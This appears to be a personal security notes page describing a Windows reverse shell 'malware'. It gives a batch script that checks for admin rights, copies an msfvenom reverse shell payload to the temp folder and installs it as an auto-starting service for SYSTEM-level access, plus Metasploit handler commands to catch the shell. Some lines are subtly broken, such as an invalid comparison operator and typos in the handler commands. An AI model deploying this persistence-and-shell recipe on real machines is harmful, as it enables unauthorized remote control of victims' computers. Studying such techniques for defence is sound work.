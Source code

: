 # Reverse shell

In this section, I aim to experiment and provide a simple example of a "malware" that can be executed as an **Administrator** account on a target's Windows machine. For simplicity, I assume the weakest security scenario:

a. User is in the **Administrators** group on the machine

b. User left the machine unattended while being logged in

c. There is no anti-virus solutions (besides Windows defender) running on the machine

&#x20;The "malware" will simply provide a remote shell as the **SYSTEM** user.

> Note: the setup and techniques used in this example is EXTREMELY minimal, and OPSEC is not taken into account.

### Setup

The following outlines the root directory of the "malware" folder&#x20;

1. `rvshell.exe`

* Generated with msfvenom: meterpreter or reverse shell

2. `shell.cmd`

* To be executed as administrators&#x20;
  * GUI: Right-click -> "Run as administrator"

{% code title="shell.cmd" overflow="wrap" %}
```batch
REM Executes a C# script that returns a boolean value that indicates if the current user is in the "Adminstrators" group, before storing the value in the "ISADMIN" env variable
for /f "delims=" %%a in ('powershell.exe -NoProfile -Command "([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltinRole]::Administrator)"') do set ISADMIN=%%a

REM Echo the value of the "ISADMIN" env variable (for debugging purposes)
echo ISADMIN=%ISADMIN%

REM User is not an administrator: EXIT
if /i "%ISADMIN%"!="True" (
    echo User is NOT an administrator
    exit
    )

REM User is an administrator: continue next step
set RVSHELL_EXE=%TEMP%\rvshell.exe

REM Copy reverse shell payload to a temp folder
copy /y rvshell.exe %RVSHELL_EXE%

REM Create and start a service with sc.exe

sc.exe create "rvshell" binPath= "%RVSHELL_EXE%" start= auto
sc.exe start "rvshell"

REM EXIT current prompt
exit
```
{% endcode %}

a. `[Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltinRole]::Administrator)`&#x20;

* A C# one-liner which output a boolean value that indicates if the current user is in the "**Administrators**" group

After executing the `shell.cmd` file: Right-click -> "Run as administrator", we will be prompted to allow  administrative permissions to run the script, to which we can simply accept to proceed.&#x20;

Notice that we are not required to authenticate (provide password or any other credentials), as our currently logged in user is an administrator (in the "**Administrators**" group).

#### Catch the shell

{% code title="Attacker machine" overflow="wrap" %}
```sh
$ msfconsole
msf6> set exploit/multi/handler

# set payload accordingly
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> set payload windows/x64/powershell_reverse_tcp

msf6> set lhost <lhsot>
msf6> set lport <lport>
msf6> run
```
{% endcode %}

### Resources

1. **Powershell.exe**

{% embed url="https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1" %}

2. `set` command

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/set_1" %}



